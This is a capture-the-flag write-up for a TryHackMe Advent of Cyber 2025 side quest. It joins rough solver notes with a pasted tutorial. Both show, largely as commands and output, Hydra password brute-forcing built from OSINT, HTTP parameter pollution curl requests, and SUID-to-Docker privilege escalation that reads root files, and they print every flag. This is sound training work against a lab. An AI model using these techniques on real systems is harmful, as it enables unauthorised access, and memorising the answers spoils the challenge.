

sidequest 1,
https://tryhackme.com/room/sq1-aoc2025-FzPnrt2SAu

The Great Disappearing Act
Can you help Hopper escape his wrongful imprisonment in HopSec asylum?
 
#### Hopper the Court Jester 

Once upon a time, there was a red-teaming mastermind turned court jester… our story begins with Hopper. Once feared as the ruthless Head of the Red Team Bunny Battalion, Hopper rose to the rank of Colonel with dizzying speed. The promotion filled him with such exhilaration and such hunger for more that it consumed his every thought. His soldiers mistook his growing twitch for stress and began calling him “Colonel Panic”, but the truth was far more dangerous: the twitch came from his obsession with power, not fear.

In those days, Hopper had already played a crucial, though conveniently forgotten, role in the earliest whispers of the Wareville siege. Buried beneath secrecy and denied by the crown, those first experiments in breaching new digital frontiers were Hopper’s design. But when the King began distancing himself from the truth, Hopper’s contributions were quietly erased from history, and his fall from grace accelerated. We now find Hopper in his prison cell in HopSec Asylum.

#### Rules
Do not share questions or hints, including in videos, streams, or any other medium while the event is running.
Only hack machines deployed in the rooms you have legitimate, authorised access to.
*.tryhackme.com and VPN servers are off-limits for probing, scanning, or exploiting.
Teaming up is permitted

---

## Asylum Escape Challenge 

You now take control of Hopper, with one ultimate goal. Free yourself from this wrongful imprisonment. To do this, you must follow Hopper's 5-step escape plan:


1. Unlock Hopper’s Cell
   
Your escape begins in the Cells and Storage area. Hopper is locked inside, and the door is secured with a digital lock. Your first task is to access the cell controls and unlock his door. Once Hopper is free, you can begin moving toward the lobby.

2. Move Through the Lobby
   
With the cell unlocked, head straight ahead into the lobby. This area connects the different blocks of the facility. Cameras are active, so stay alert. Your objective is to reach the Psych Ward entrance on the east side of the lobby.

3. Bypass the Psych Ward Keypad
   
The Psych Ward is protected by a keypad system. You must identify the correct code or exploit the keypad to continue. Once the keypad is bypassed, you will gain access to the Psych Ward Exit hallway.

4. Reach the Main Corridor
   
From the Psych Ward Exit you can move south and loop around into the Main Corridor. This is the final section of the escape route. The last challenge awaits here, and completing it will open the final exit door.

5. Escape the Facility
    
Solve the final challenge in the Main Corridor and make your way toward the exit marked on the map. Once the door opens, Hopper is free, and the escape is complete.


---
**Answer the questions below**

 What is the first flag?

`***{********_***}`

What is the second flag?

`***{***_****_****_*********_******}`
 
What is the third flag?

`***{***_****_***_*******}`
  
  
  
 Do not share questions or hints, including in videos, streams, or any other medium while the event is running (until Dec 31st).
 
 
 
 01.01.2026
 

 
 
 steps:
 step 1: solve the egg decode
start egg decode

 `now_you_see_me`
### Password = now_you_see_me

Step 2:
post you go to unlock with that password in port there say, there will firewall unlock for continue:

```  
nmap -sV -T4 -vv -O -A XX.XXX.XXX.XX
...
ORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3a:8c:aa:d1:c2:7d:35:a2:4f:63:ee:18:9e:4c:db:49 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJZIUa7BZ427vgRujJuPhmrG8ZkObZBBL6in4nEKk13N2bWmsM07+H2QpOkEVBmLQA9Y1vCyZOHWpSc2dydomVE=
|   256 8e:d3:92:e6:74:dc:9d:cf:af:fa:55:23:35:32:3c:ee (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHnYSznfBD1ILm+utjl4DNm3DWbU8Z3sDIbql+7XUmgw
80/tcp   open  http     syn-ack ttl 62 nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: HopSec Asylum - Security Console
|_http-server-header: nginx/1.24.0 (Ubuntu)
8000/tcp open  http-alt syn-ack ttl 61
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| http-title: Fakebook - Sign In
|_Requested resource was /accounts/login/?next=/posts/
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html
|     X-Frame-Options: DENY
|     Content-Length: 179
|     Vary: Accept-Language
|     Content-Language: en
|     X-Content-Type-Options: nosniff
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <title>Not Found</title>
|     </head>
|     <body>
|     <h1>Not Found</h1><p>The requested resource was not found on this server.</p>
|     </body>
|     </html>
|   GenericLines, Help, RTSPRequest, SIPOptions, Socks5, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /posts/
|     X-Frame-Options: DENY
|     Content-Length: 0
|     Vary: Accept-Language
|     Content-Language: en
|_    X-Content-Type-Options: nosniff
8080/tcp open  http     syn-ack ttl 62 SimpleHTTPServer 0.6 (Python 3.12.3)
|_http-title: HopSec Asylum - Security Console
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.12.3
```
  
There are 4 open port

22 (ssh)
80 (HTTP)
8080 (HTTP)
8000 (HTTP)


```bash
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
8000/tcp open     http-alt
8080/tcp open     http-proxy
9001/tcp filtered tor-orport
```

*Port `80` leads to a security console, port `8000` leads to` Fakebook` social media website and port `8080` redirects to the same console on port `80`*


hidden path
ffuf -u http://XX.XXX.XXX.XX/FUZZ -w /usr/share/wordlists/dirb/big.txt 2>/dev/null   
cgi-bin                 [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 177ms]

facebook path


ffuf -u http://XX.XXX.XXX.XX/FUZZ -w /usr/share/wordlists/dirb/big.txt 2>/dev/null
admin                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 217ms]
chat                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 265ms]
media                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 197ms]
posts                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 224ms]
profiles                [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 224ms]
 
with info of facebook register can continue with mail and password.
 Security Console Website: 
 
 - `Hopkins, please stop forgetting your password`
 
 Fakebook Website Comments

- Guard Hopkins: `Happy 43rd anniversary to the year I was born. Yep 1982! What a year for the world. `

- Sir Carrotbane: `HAHAHA heard they locked up my old boss Hopper. GOOD! ITS WHERE HE BELONGS , The red team battalion has been WAY better since I took control. `

- Sir Carrotbane: `Did you know that if you enter your password as a comment on a post, it appears as *'s? `

- Sir Carrotbae: `Trying my hand at some bruteforcing challenges on thm, good to see they have /opt/hashcat-utils/src/combinator.bin on the AttackBox! Always comes in handy `

- Guard Hopkins: `Taking Johnnyboy on a walk! Johnnyboy is my best friend although I do have more (sorry for the brag) `

- Guard Hopkins: `@DoorDasher , My discount code didn't work on my latest order, just realised I paid full price. Can you check your support email , you should have one from: guard.hopkins@hopsecasylum.com `

Comments on Post:

- Guard Hopkis: `Pizza1234$`

- Guard Hopkis: `WHAT THE HELL CARROTBANE!!! NOW I NEED TO CHANGE MY PASSWORD!!!!!`

*The comment about `combinator.bin` heavily suggests that we have to combine wordlists to bruteforce the password. We already Hopkin's email - `guard.hopkins@hopsecasylum.com`*

*I ended up creating 2 wordlists - 1 containing various strings and another containing numbers and symbols. Ofcourse I used AI to help me create these 2 wordlists*

*Here's a small snippet of what those wordlists looked like:*

```
Pizza
pizza
PIZZA
Hopkins
hopkins
HOPKINS
Hopkis
guard.hopkins
guardhopkins
GuardHopkins
Johnnyboy
johnnyboy
Johnny...and more
```

```
1234
12345
123456
1982
43
82
22
2025
1982$
1982!
1982@
1982#
1982%
43$
43!
43@...and more
```

*I combined them with the following command:*

```bash
combinator.bin l1.txt l1.txt > l12.txt
```

*I then ran `Hydra` to brute force. By the way, you have to use `8080` proxy and not `80` as it does not work:*

```
hydra -s 8080 -t 16 -V -f   -l "guard.hopkins@hopsecasylum.com" -P t12.txt 10.49.163.2   http-post-form "/cgi-bin/login.sh:username=^USER^&password=^PASS^:Invalid username or password"
```

```bash
[ATTEMPT] target 10.49.163.2 - login "guard.hopkins@hopsecasylum.com" - pass "Johnnyboy!1234" - 751 of 2091 [child 14] (0/0)
[ATTEMPT] target 10.49.163.2 - login "guard.hopkins@hopsecasylum.com" - pass "Johnnyboy@1234" - 752 of 2091 [child 5] (0/0)
[8080][http-post-form] host: 10.49.163.2   login: guard.hopkins@hopsecasylum.com   password: Johnnyboy1982!
[STATUS] attack finished for 10.49.163.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-03 18:23:09
```

*The password is: `Johnnyboy1982!`*

*I proceeded to unlock the `Cell / Storage` Wing as instructed in the task and got the first flag .
`THM{h0pp1ing_m4d}`*


 Key 1: Cells / Storage Door   → Unlocks Hopper's Cell     → FLAG 1
 Key 2: Psych Ward Exit        → Requires 4-digit PIN      → FLAG 2 (Part 1)
 Key 3: Main Corridor Exit     → SCADA Bypass Required     → FLAG 3
 EXIT:  Final Escape Door      → Submit all 3 flags        → INVITE CODE

Step 1: Unlock Hopper's Cell
Vulnerability Exploited: CGI Script Manipulation

Payload: /key_flag.sh?door=hopper
Artifact: Flag 1 obtained.  `THM{h0pp1ing_m4d}`*

Step 2: Move Through the Lobby
Enumeration: Identified a camera API active on port 13401.
Exploitation Technique: Utilized HTTP Parameter Pollution (HPP) to bypass authorization and gain access to the admin camera feed.

```bash
nmap -sC -sV -p- 10.49.163.2
```

*The most interesting port out of these was `13400` as it led to `HopSec Asylum Facility Video Portal`.*

*This took me forever to figure out so I'll summarize what I did:*

*I logged into the video portal with the guard credentials and extracted the JWT token from localStorage.

*I discovered the server wasn't validating the JWT signature, so I modified the token to change `"role":"guard"` to `"role":"admin"` and updated it in localStorage.*

*However, when I tried requesting the admin camera (cam-admin) using the modified token with

```bash
curl -X POST "http://10.48.191.182:13401/v1/streams/request" -H "Authorization: Bearer {\"sub\": \"guard.hopkins@hopsecasylum.com\", \"role\": \"admin\", \"iat\": 1765182837}.<signature>" -d '{"camera_id":"cam-admin","tier":"admin"}'
```

*the server returned a 401 unauthorized error. This meant the signature was actually being validated when the role changed.*

*I went back to using the original valid guard token and tried several exploitation techniques on the `/v1/streams/request` endpoint itself testing missing tier fields, requesting guard cameras with admin tiers etc.

*The breakthrough came when I tested HTTP Parameter Pollution by passing `tier=admin` as a URL query parameter while keeping `tier=guard` in the JSON body:*

```bash
curl -X POST "http://10.48.191.182:13401/v1/streams/request?tier=admin" -H "Authorization: Bearer {valid_guard_token}" -d '{"camera_id":"cam-admin","tier":"guard"}'
```

*This returned `"effective_tier": "admin"`  with a valid admin ticket, exploiting the server's priority of query parameters over body parameters. I then accessed the real admin camera stream using the ticket ID in the manifest URL.*

*The video showed a keypad being accessed - The code `115879`*

*But of course, it cant't be this easy (even though it wasn't). I only found the first part of the flag:*

`THM{Y0u_h4ve_b3en_`

$ cat user_part2.txt
j3stered_739138}
 

**Flag 2 (Combined):**
- Part 1 (from initial enum): `THM{Y0u_h4ve_b3en_`
- Part 2 (from console): `j3stered_739138}`

### ✅ Flag 2: `THM{Y0u_h4ve_b3en_j3stered_739138}`


Step in now:  Bypass the Psych Ward Keypad
Discovery: Found a hidden diagnostics endpoint embedded within an HLS manifest.
Data Leak: Leaked a console token via the job status monitoring.

Artifact: Flag 2 obtained, port for scada ok.


From the console shell, we discovered a SCADA terminal running on localhost:

```bash
$ ss -tlnp
LISTEN  0  128  127.0.0.1:9001  *:*  users:(("python3",pid=1234,fd=5))
```

### Step 2: SCADA Authentication

**Connecting to SCADA:**
```bash
$ nc 127.0.0.1 9001

################################################################################
#                                                                              #
#                    ██╗  ██╗ ██████╗ ██████╗ ███████╗███████╗ ██████╗         #
#                    ██║  ██║██╔═══██╗██╔══██╗██╔════╝██╔════╝██╔════╝         #
#                    ███████║██║   ██║██████╔╝███████╗█████╗  ██║              #
#                    ██╔══██║██║   ██║██╔═══╝ ╚════██║██╔══╝  ██║              #
#                    ██║  ██║╚██████╔╝██║     ███████║███████╗╚██████╗         #
#                    ╚═╝  ╚═╝ ╚═════╝ ╚═╝     ╚══════╝╚══════╝ ╚═════╝         #
#                                                                              #
#                          ASYLUM SCADA CONTROL SYSTEM                         #
#                                                                              #
################################################################################

[!] Authentication Required
Enter maintenance token:
```

**Token:** Flag 2 (`THM{Y0u_h4ve_b3en_j3stered_739138}`) was the SCADA token!

```
> THM{Y0u_h4ve_b3en_j3stered_739138}
[+] Access Granted.
SCADA #LOCKED>
```

### Step 3: Finding the Unlock Code

The SCADA terminal required a **numeric unlock code**. After enumeration, we discovered:

**Code Location:** `/root/.asylum/unlock_code` inside Docker container `asylum_gate_control`

**The Problem:** We were running as `svc_vidops` with no root access.

### Step 4: Privilege Escalation via SUID Binary

**Discovery:**
```bash
$ find / -perm -4000 -type f 2>/dev/null
/usr/local/bin/diag_shell
```

**Analysis:**
```bash
$ ls -la /usr/local/bin/diag_shell
-rwsr-xr-x 1 dockermgr dockermgr 16832 Dec  1 00:00 /usr/local/bin/diag_shell

$ file /usr/local/bin/diag_shell
/usr/local/bin/diag_shell: setuid ELF 64-bit LSB executable
```

The binary had **SUID** bit set and was owned by `dockermgr` (UID 1501).

**Key Insight:** The binary sets UID to `dockermgr` but NOT the GID. To access Docker, we needed to use `sg docker` to temporarily gain docker group privileges.

### Step 5: Extracting the Unlock Code

**The Command Chain:**
```bash
$ echo 'sg docker -c "docker exec -u root asylum_gate_control cat /root/.asylum/unlock_code"' | /usr/local/bin/diag_shell
739184627
```

**Breakdown:**
1. `diag_shell` - Spawns bash with UID set to dockermgr (1501)
2. `sg docker` - Executes command with docker group privileges
3. `docker exec -u root` - Runs command as root inside container
4. `cat /root/.asylum/unlock_code` - Reads the unlock code


Step 4: Reach the Main Corridor
Target: SCADA terminal accessible on localhost:9001.

Privilege Escalation: Exploited the /usr/local/bin/diag_shell binary to elevate permissions.

Access Credentials: Unlock code "obtained".

```bash
$ curl -s -X POST -H "Content-Type: application/x-www-form-urlencoded" \
    -d "code=739184627" \
    "http://127.0.0.1:8080/cgi-bin/exit_check.sh"
```

**Response:**
```json
{"ok":true,"flag":"THM{p0p_go3s_THe_W3as3l}"}
```

### ✅ Flag 3: `THM{p0p_go3s_THe_W3as3l}`


Artifact: Flag 3 obtained.


Step 5: Escape the Facility
Final Validation: Submitted all three flags to  /escape_check.sh.

```bash
$ curl -s -X POST -H "Content-Type: application/x-www-form-urlencoded" \
    -d "flag1=THM{h0pp1ing_m4d}&flag2=THM{Y0u_h4ve_b3en_j3stered_739138}&flag3=THM{p0p_go3s_THe_W3as3l}" \
    http://127.0.0.1:8080/cgi-bin/escape_check.sh
```

**Response:**
```json
{
  "ok": true,
  "invite_url": "https://static-labs.tryhackme.cloud/apps/hoppers-invitation/",
  "invite_code": "THM{There.is.no.EASTmas.without.Hopper}"
}
```


 
 
 video:
 https://www.youtube.com/watch?v=Hccbd7_g9mE
 
 
 
 Tutorial from jaxafed
 ---
title: "TryHackMe: AoC 2025 Side Quest One"
author: jaxafed
categories: [TryHackMe]
date: 2026-01-01 00:00:01 +0000
tags: [web, osint, api, http parameter pollution, camera, m3u8, hls, rtsp, suid, docker]
render_with_liquid: false
media_subpath: /images/tryhackme_aoc2025_sidequest_one/
image:
  path: room_image.webp
---

**First Side Quest (The Great Disappearing Act)** started with discovering the key in the **Advent of Cyber Day 1** room and using it to remove the firewall on the target machine.

Afterward, by creating an account and logging into a social media application, we used **OSINT** to discover the email and password of a user. We then used these credentials to access the security console and open a door, obtaining the first flag.

Next, using the same credentials on the video portal application, we exploited an **HTTP Parameter Pollution** vulnerability to access a restricted video feed and captured a keycode, which allowed us to unlock another door and retrieve the first part of the second flag. By examining how the video feeds worked, we identified an endpoint that provided a token, which we used to obtain a shell on the target and capture the second part of the second flag.

Finally, with our shell, we escalated privileges using a **SUID** binary and gained access as a user in the **docker** group. We leveraged this to escalate to the **root** user and discover the unlock code for the final door. Using this code, we unlocked the last door, obtained the third flag, and completed the room.


[{: width="300" height="300" .shadow}](https://tryhackme.com/room/sq1-aoc2025-FzPnrt2SAu){: .center }

## Finding the Key

We start the side quest by trying to find the key in the [Advent of Cyber Day 1 room](https://tryhackme.com/room/linuxcli-aoc2025-o1fpqkvxti).

### Finding the Fragments

After getting a shell on the room with the given credentials, we find an interesting note in `/home/mcskidy/Documents/read-me-please.txt`, which provides credentials for the **eddi_knapp** user and instructs us to find **three fragments** and combine them to decrypt a message located in the `/home/eddi_knapp/Documents/` directory.

```console
mcskidy@tbfc-web01:~/Documents$ cat read-me-please.txt
From: mcskidy
To: whoever finds this

I had a short second when no one was watching. I used it.

I've managed to plant a few clues around the account.
If you can get into the user below and look carefully,
those three little "easter eggs" will combine into a passcode
that unlocks a further message that I encrypted in the
/home/eddi_knapp/Documents/ directory.
I didn't want the wrong eyes to see it.

Access the user account:
username: eddi_knapp
password: S0mething1Sc0ming

There are three hidden easter eggs.
They combine to form the passcode to open my encrypted vault.

Clues (one for each egg):

1)
I ride with your session, not with your chest of files.
Open the little bag your shell carries when you arrive.

2)
The tree shows today; the rings remember yesterday.
Read the ledger’s older pages.

3)
When pixels sleep, their tails sometimes whisper plain words.
Listen to the tail.

Find the fragments, join them in order, and use the resulting passcode
to decrypt the message I left. Be careful — I had to be quick,
and I left only enough to get help.

~ McSkidy
```

We can use the given credentials to switch to the `eddi_knapp` user.

```console
mcskidy@tbfc-web01:~/Documents$ su - eddi_knapp
Password:
eddi_knapp@tbfc-web01:~$
```

* Afterwards, we find the **first fragment** inside the `/home/eddi_knapp/.bashrc` file:

```console
eddi_knapp@tbfc-web01:~$ tail -n1 .bashrc
export PASSFRAG1="3ast3r"
```

* The **second fragment** is stored in the hidden `git` repository at `/home/eddi_knapp/.secret_git`:

```console
eddi_knapp@tbfc-web01:~/.secret_git$ git log
commit e924698378132991ee08f050251242a092c548fd (HEAD -> master)
Author: mcskiddy <mcskiddy@robco.local>
Date:   Thu Oct 9 17:20:11 2025 +0000

    remove sensitive note

commit d12875c8b62e089320880b9b7e41d6765818af3d
Author: McSkidy <mcskiddy@tbfc.local>
Date:   Thu Oct 9 17:19:53 2025 +0000

    add private note
eddi_knapp@tbfc-web01:~/.secret_git$ git show d12875c8b62e089320880b9b7e41d6765818af3d
commit d12875c8b62e089320880b9b7e41d6765818af3d
Author: McSkidy <mcskiddy@tbfc.local>
Date:   Thu Oct 9 17:19:53 2025 +0000

    add private note

diff --git a/secret_note.txt b/secret_note.txt
new file mode 100755
index 0000000..060736e
--- /dev/null
+++ b/secret_note.txt
@@ -0,0 +1,5 @@
+========================================
+Private note from McSkidy
+========================================
+We hid things to buy time.
+PASSFRAG2: -1s-
```

* The **third fragment** is located inside the `/home/eddi_knapp/Pictures/.easter_egg` file:

```console
eddi_knapp@tbfc-web01:~$ tail -n 1 /home/eddi_knapp/Pictures/.easter_egg
PASSFRAG3: c0M1nG
```

### Getting the Ciphertext

Now we can combine the fragments to create a passphrase and decrypt the `/home/eddi_knapp/Documents/mcskidy_note.txt.gpg` message mentioned earlier.

```console
eddi_knapp@tbfc-web01:~/Documents$ gpg --batch --yes --passphrase "3ast3r-1s-c0M1nG" --pinentry-mode loopback -d mcskidy_note.txt.gpg
gpg: AES256.CFB encrypted data
gpg: encrypted with 1 passphrase
Congrats — you found all fragments and reached this file.

Below is the list that should be live on the site. If you replace the contents of
/home/socmas/2025/wishlist.txt with this exact list (one item per line, no numbering),
the site will recognise it and the takeover glitching will stop. Do it — it will save the site.

Hardware security keys (YubiKey or similar)
Commercial password manager subscriptions (team seats)
Endpoint detection & response (EDR) licenses
Secure remote access appliances (jump boxes)
Cloud workload scanning credits (container/image scanning)
Threat intelligence feed subscription

Secure code review / SAST tool access
Dedicated secure test lab VM pool
Incident response runbook templates and playbooks
Electronic safe drive with encrypted backups

A final note — I don't know exactly where they have me, but there are *lots* of eggs
and I can smell chocolate in the air. Something big is coming.  — McSkidy

---

When the wishlist is corrected, the site will show a block of ciphertext. This ciphertext can be decrypted with the following unlock key:

UNLOCK_KEY: 91J6X7R4FQ9TQPM9JX2Q9X2Z

To decode the ciphertext, use OpenSSL. For instance, if you copied the ciphertext into a file /tmp/website_output.txt you could decode using the following command:

cat > /tmp/website_output.txt
openssl enc -d -aes-256-cbc -pbkdf2 -iter 200000 -salt -base64 -in /tmp/website_output.txt -out /tmp/decoded_message.txt -pass pass:'91J6X7R4FQ9TQPM9JX2Q9X2Z'
cat /tmp/decoded_message.txt

Sorry to be so convoluted, I couldn't risk making this easy while King Malhare watches. — McSkidy
```
{: .wrap }

It instructs us to replace the contents of `/home/socmas/2025/wishlist.txt` with the provided text, so let's do that.

```console
eddi_knapp@tbfc-web01:~$ nano /home/socmas/2025/wishlist.txt
eddi_knapp@tbfc-web01:~$ cat /home/socmas/2025/wishlist.txt
Hardware security keys (YubiKey or similar)
Commercial password manager subscriptions (team seats)
Endpoint detection & response (EDR) licenses
Secure remote access appliances (jump boxes)
Cloud workload scanning credits (container/image scanning)
Threat intelligence feed subscription
```

Afterwards, checking the web application on port `8080`, we can see that it displays a ciphertext as described.

{: width="2500" height="1250"}

### Finding the Key

We can decrypt this ciphertext exactly as shown in the note:

```console
eddi_knapp@tbfc-web01:~$ echo 'U2FsdGVkX1/7xkS74RBSFMhpR9Pv0PZrzOVsIzd38sUGzGsDJOB9FbybAWod5HMsa+WIr5HDprvK6aFNYuOGoZ60qI7axX5Qnn1E6D+BPknRgktrZTbMqfJ7wnwCExyU8ek1RxohYBehaDyUWxSNAkARJtjVJEAOA1kEOUOah11iaPGKxrKRV0kVQKpEVnuZMbf0gv1ih421QvmGucErFhnuX+xv63drOTkYy15s9BVCUfKmjMLniusI0tqs236zv4LGbgrcOfgir+P+gWHc2TVW4CYszVXlAZUg07JlLLx1jkF85TIMjQ3B91MQS+btaH2WGWFyakmqYltz6jB5DOSCA6AMQYsqLlx53ORLxy3FfJhZTl9iwlrgEZjJZjDoXBBMdlMCOjKUZfTbt3pnlHWEaGJD7NoTgywFsIw5cz7hkmAMxAIkNn/5hGd/S7mwVp9h6GmBUYDsgHWpRxvnjh0s5kVD8TYjLzVnvaNFS4FXrQCiVIcp1ETqicXRjE4T0MYdnFD8h7og3ZlAFixM3nYpUYgKnqi2o2zJg7fEZ8c=' > /tmp/website_output.txt

eddi_knapp@tbfc-web01:~$ openssl enc -d -aes-256-cbc -pbkdf2 -iter 200000 -salt -base64 -in /tmp/website_output.txt -out /tmp/decoded_message.txt -pass pass:'91J6X7R4FQ9TQPM9JX2Q9X2Z'

eddi_knapp@tbfc-web01:~$ cat /tmp/decoded_message.txt
Well done — the glitch is fixed. Amazing job going the extra mile and saving the site. Take this flag THM{w3lcome_2_A0c_2025}

NEXT STEP:
If you fancy something a little...spicier....use the FLAG you just obtained as the passphrase to unlock:
/home/eddi_knapp/.secret/dir

That hidden directory has been archived and encrypted with the FLAG.
Inside it you'll find the sidequest key.
```
{: .wrap }

Following the steps from the note, we decrypt the `/home/eddi_knapp/.secret/dir.tar.gz.gpg` file, which gives us a tar archive. Extracting it yields a single PNG file.

```console
eddi_knapp@tbfc-web01:~/.secret$ gpg --batch --yes --passphrase "THM{w3lcome_2_A0c_2025}" --pinentry-mode loopback -d dir.tar.gz.gpg > dir.tar.gz
gpg: AES256.CFB encrypted data
gpg: encrypted with 1 passphrase

eddi_knapp@tbfc-web01:~/.secret$ tar -xvzf dir.tar.gz
dir/
dir/sq1.png
```
{: .wrap }

Let's start an HTTP server using Python so we can download the image to our own machine.

```console
eddi_knapp@tbfc-web01:~/.secret$ cd dir/
eddi_knapp@tbfc-web01:~/.secret/dir$ python3 -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
```

Downloading the image from the HTTP server:

```console
$ wget -q http://10.66.142.236:7777/sq1.png
```

Looking at the image, we can find the key on it and move on to the actual side quest.

{: width="550" height="550"}

## Side Quest

We start the side quest by visiting the web server on port `21337` and entering the key we discovered to remove the firewall as per the room instructions.

{: width="2500" height="1250"}

### Initial Enumeration

Afterwards, we run an `nmap` scan to discover all the services running on the target.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.67.161.155
Nmap scan report for 10.67.161.155
Host is up (0.15s latency).
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
...
80/tcp    open     http            nginx 1.24.0 (Ubuntu)
...
8000/tcp  open     http-alt
...
8080/tcp  open     http            SimpleHTTPServer 0.6 (Python 3.12.3)
...
9001/tcp  open     tor-orport?
...
13400/tcp open     hadoop-datanode Apache Hadoop 1.24.0 (Ubuntu)
...
13401/tcp open     http            Werkzeug httpd 3.1.3 (Python 3.12.3)
...
13402/tcp open     http            nginx 1.24.0 (Ubuntu)
...
13403/tcp open     unknown
...
13404/tcp open     unknown
...
21337/tcp open     http            Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-title: Unlock Hopper's Memories
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3

```

There are quite a number of services running on the target, and the ones relevant to us are:

* The **social media application** on port `8000`, which gives us a login page and an account creation option.

{: width="2500" height="1250"}

* The **Security Console** application on port `8080`, which presents a login page.

{: width="2500" height="1250"}

* The **SCADA terminal** on port `9001`, which asks for an authorization token.

```console
$ nc 10.67.161.155 9001

╔═══════════════════════════════════════════════════════════════╗
║     ASYLUM GATE CONTROL SYSTEM - SCADA TERMINAL v2.1          ║
║              [AUTHORIZED PERSONNEL ONLY]                      ║
╚═══════════════════════════════════════════════════════════════╝

[!] WARNING: This system controls critical infrastructure
[!] All access attempts are logged and monitored
[!] Unauthorized access will result in immediate termination

[!] Authentication required to access SCADA terminal
[!] Provide authorization token from Part 1 to proceed


[AUTH] Enter authorization token:
```

* The **video portal** on port `13400`, which also presents a login page.

{: width="2500" height="1250"}

* And lastly, the **service on port `13404`**, which currently responds with `unauthorized` to any input.

```console
$ nc 10.67.161.155 13404
test
unauthorized
```

### First Flag

Since we don't have any credentials, an authorization token, or any clues about the service on port `13404`, we start by creating an account for the social media application on port `8000`.

{: width="2500" height="1250"}

After creating an account and logging in, we can see posts from other users. The first post includes an interesting detail: the email of **Guard Hopkins**, which is `guard.hopkins@hopsecasylum.com`.

{: width="1000" height="500"}

Checking other posts, we see that Guard Hopkins was tricked into revealing their password. Unfortunately, they mention that they changed it afterwards, and indeed the leaked password no longer works. However, we learn their **password pattern**: a capitalized word followed by digits and a special character.

{: width="1000" height="800"}

Another post reveals their **birth year**, `1982`, and it is followed by `!`.

{: width="1000" height="500"}

Finally, another post reveals their **pet's name**, `Johnnyboy`.

{: width="500" height="700"}

Combining what we learned, we can generate a likely password such as `Johnnyboy1982!`. Testing it on **Fakebook** (port `8000`) does not work, but testing it on the **Security Console** (port `8080`) with the email address we found allows us to successfully log in.

{: width="2500" height="1250"}

> Instead of guessing the password, you can also use `cewl` to crawl the application and generate a wordlist, then use `combinator.bin` (as hinted by another post) to build candidate passwords and test them against the service on port **8080** to discover the password.
{: .prompt-tip }

After logging in, we simply click **Cells / Storage door** and unlock the cell door to obtain the first flag.

{: width="2500" height="1250"}

### Second Flag

Now if we try to unlock the next door, it asks for a keycode that we don't have, so instead let's focus on the video portal application on port `13400`, where we can log in using the same credentials and access several camera feeds with one camera feed being only available to the **admin** role.

{: width="2500" height="1250"}

Inspecting how the application loads camera feeds using Burp Suite, we notice that it does so through the **API** on port `13401`. It first fetches the camera list with a request to `:13401/v1/cameras`, and depending on which camera we select, it makes a **POST** request to `/v1/streams/request` containing the camera ID and our tier, for example:
`{"camera_id":"cam-lobby","tier":"guard"}`.
The application responds with a `ticket_id` for that stream, which is then used in the request to `/v1/streams/<ticket_id>/manifest.m3u8` to retrieve the feed.

{: width="2000" height="1000"}

One interesting detail is that our role is included as the `tier` in the `/v1/streams/request` request. If we try changing the `camera_id` to the admin-only feed and set our `tier` to `admin`, the application rejects it and reverts our tier back to `guard`.

{: width="2000" height="1000"}

However, if we use **any value other than** `admin`, it reflects correctly as our effective tier, suggesting that there is a specific filter blocking only the `admin` value.

{: width="2000" height="1000"}

Attempts to bypass this using Unicode escapes or mixed-case variations do not work. Instead, we can try exploiting an **HTTP Parameter Pollution** vulnerability by passing the `tier` both in the JSON body and as a URL parameter. This works, and the server returns `admin` as the `effective_tier`.

